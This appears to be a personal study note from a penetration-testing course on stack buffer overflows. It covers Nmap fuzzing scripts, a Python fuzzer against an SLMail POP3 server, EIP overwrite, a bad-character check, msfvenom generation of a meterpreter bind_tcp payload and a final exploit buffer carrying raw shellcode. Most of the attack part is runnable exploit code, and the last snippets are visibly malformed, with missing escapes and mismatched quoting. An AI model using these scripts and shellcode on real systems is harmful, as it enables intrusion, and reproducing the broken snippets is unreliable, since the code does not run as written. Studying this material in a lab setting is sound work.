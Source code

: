 ```yaml
---
id: 2016-02-20-buffer-overflows
title: buffer overflows
metaTitle: Buffer Overflows | Anas's Digital Garden
metaDescription: buffer overflows | Anas's Digital Garden
createdDate: 2016-02-20
updatedDate: 2023-01-15
weekNumber: 202302
category: security/buffer-overflows
tags: ["buffer-overflows", "buffer-overflows"]
---
```


# Buffer Overflows

Those are the main ways of identifying flaws in applications

- If the source code of the application is available, then source code review is probably the easiest way to identify
  bugs.
- If the application is closed source, you can use reverse engineering techniques, or fuzzing, to find bugs.

## A look inside Stack while a simple app is running

![](./images/inside_stack.png)

## Fuzzing

- Fuzzing involves sending malformed data into application input and watching for unexpected crashes.
- An unexpected crash indicates that the application might not filter certain input correctly. This could lead to
  discovering an exploitable vulnerability.
- Nmap Fuzzers:

  - NMap Fuzzer List
    [https://nmap.org/nsedoc/categories/fuzzer.html](https://nmap.org/nsedoc/categories/fuzzer.html)

  - NMap HTTP Form Fuzzer

    ```
      nmap --script http-form-fuzzer --script-args
      'http-form-fuzzer.targets={1={path=/},2={path=/register.html}}'
      -p 80 $ip
    ```

  - Nmap DNS Fuzzer
    ```
    nmap --script dns-fuzz --script-args timelimit=2h $ip -d
    ```

- MSFvenom
  [_https://www.offensive-security.com/metasploit-unleashed/msfvenom/_](https://www.offensive-security.com/metasploit-unleashed/msfvenom/)

### A Word About DEP and ASLR

- **DEP** (Data Execution Prevention) is a set of hardware, and software, technologies that perform additional checks on
  memory, to help prevent malicious code from running on a system.
- The primary benefit of **DEP** is to help prevent code execution from data pages, by raising an exception, when
  execution occurs.
- **ASLR** (Address Space Layout Randomization) randomizes the base addresses of loaded applications, and DLLs, every
  time the Operating System is booted.

#### Interacting with the POP3 Protocol

> if the protocol under examination was unknown to us, we would either need to look up the RFC of the protocol format, or learn it ourselves, using a tool like Wireshark.

- To reproduce the netcat connection usage performed earlier in the course using a Python script, our code would look
  similar to the following

```python
#!/usr/bin/python
import socket

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)

try:
  print
  "\nSending vil buffer..."
  s.connect(('10.0.0.22', 110))  # connect to IP, POP3 port
  data = s.recv(1024)  # receive banner
  print
  data  # print banner

  s.send('USER   test' + '\r\n')  # end username "test"
  data = s.recv(1024)  # receive reply
  print
  data  # print reply

  s.send('PASS test\r\n')  # send password "test"
  data = s.recv(1024)  # receive reply
  print
  data  # print reply

  s.close()  # close socket
  print
  "\nDone!"

except:
  print
  "Could not connect to POP3!"
```

- Taking this simple script and modifying it to fuzz the password field during the login process is easy. The resulting
  script would look like the following.

```python
#!/usr/bin/python
import socket

# Create an array of buffers, from 10 to 2000, with increments of 20.
buffer = ["A"]
counter = 100

while len(buffer) <= 30:
  buffer.append("A" * counter)
  counter = counter + 200

for string in buffer:
  print
  "Fuzzing PASS with %s bytes" % len(string)
  s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
  s.recv(1024)
  s.send('USER test\r\n')
  s.recv(1024)
  s.send('PASS ' + string + '\r\n')
  s.send('QUIT\r\n')
  s.close()
```

- Run this script against your SLMail instance, while attached to **Immunity Debugger**.
- The results of running this script shows that the **Extended Instruction Pointer (EIP)** register has been overwritten
  with our input buffer of A’s (the hex equivalent of the letter A is \x41).
- This is of particular interest to us, as the EIP register also controls the execution flow of the application.
- This means that if we craft our exploit buffer carefully, we might be able to divert the execution of the program to a
  place of our choosing, such as a into the memory where we can introduce some reverse shell code, as part of our
  buffer.

![Execution Halted in OllyDbg](../../assets/images/posts/buffer_overflow/33.png)

## Check for bad characters

```bash
>> python -c \
'print "A"*80 + "B"*4 + \
"x01x02x03x04x05x06x07x08x09x0ax0bx0cx0dx0ex0fx10" + \
"x11x12x13x14x15x16x17x18x19x1ax1bx1cx1dx1ex1fx20" + \
"x21x22x23x24x25x26x27x28x29x2ax2bx2cx2dx2ex2fx30" + \
"x31x32x33x34x35x36x37x38x39x3ax3bx3cx3dx3ex3fx40" + \
"x41x42x43x44x45x46x47x48x49x4ax4bx4cx4dx4ex4fx50" + \
"x51x52x53x54x55x56x57x58x59x5ax5bx5cx5dx5ex5fx60" + \
"x61x62x63x64x65x66x67x68x69x6ax6bx6cx6dx6ex6fx70" + \
"x71x72x73x74x75x76x77x78x79x7ax7bx7cx7dx7ex7fx80" + \
"x81x82x83x84x85x86x87x88x89x8ax8bx8cx8dx8ex8fx90" + \
"x91x92x93x94x95x96x97x98x99x9ax9bx9cx9dx9ex9fxa0" + \
"xa1xa2xa3xa4xa5xa6xa7xa8xa9xaaxabxacxadxaexafxb0" + \
"xb1xb2xb3xb4xb5xb6xb7xb8xb9xbaxbbxbcxbdxbexbfxc0" + \
"xc1xc2xc3xc4xc5xc6xc7xc8xc9xcaxcbxccxcdxcexcfxd0" + \
"xd1xd2xd3xd4xd5xd6xd7xd8xd9xdaxdbxdcxddxdexdfxe0" + \
"xe1xe2xe3xe4xe5xe6xe7xe8xe9xeaxebxecxedxeexefxf0" + \
"xf1xf2xf3xf4xf5xf6xf7xf8xf9xfaxfbxfcxfdxfexff"'
```

## Generate meterpreter bind-tcp payload

```bash
>> msfvenom -p linux/x86/meterpreter/bind_tcp -b="0x00" -f python
```

```bash
# using output from last command we can create our full payload
python -c \
"AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA" + \
"BBBB" + \
'print "A"*80 + "B"*4 + "x90" * (400 - 137) + \
"\xba\x8a\x2a\xb0\xa4\xd9\xed\xd9\x74\x24\xf4\x5d\x31" + \
"\xc9\xb1\x1c\x31\x55\x14\x03\x55\x14\x83\xed\xfc\x68" + \
"\xdf\xda\xd9\x34\xb9\xa9\x25\x7d\xb9\xdd\x29\x7d\x33" + \
"\x3e\x4f\xfc\xa0\xc1\x60\x33\xa6\xf3\x5b\x3c\x44\xa0" + \
"\x18\x91\xe1\x45\x16\xf4\x46\x2f\xe5\x76\xf7\xda\xf1" + \
"\x22\x92\x18\x90\xcb\x32\x8a\xed\x2a\xd8\xba\xb6\xc6" + \
"\x7b\x9b\x85\x96\x13\x98\xd2\x82\x42\xc4\x84\xf8\x1c" + \
"\xf8\x38\xed\x80\x96\x28\x5c\x69\xee\xa8\x34\xef\xa8" + \
"\xe7\x48\x3e\xab\x48\x2e\x0c\xac\xf9\xed\x3e\xcb\x70" + \
"\xa0\x3a\xd9\x03\xd1\xf5\xed\xb3\xd6\x34\x6d\x34\x07" + \
"\x9d\xde\x3d\x7a\xa2\xe0\xa3"'
```
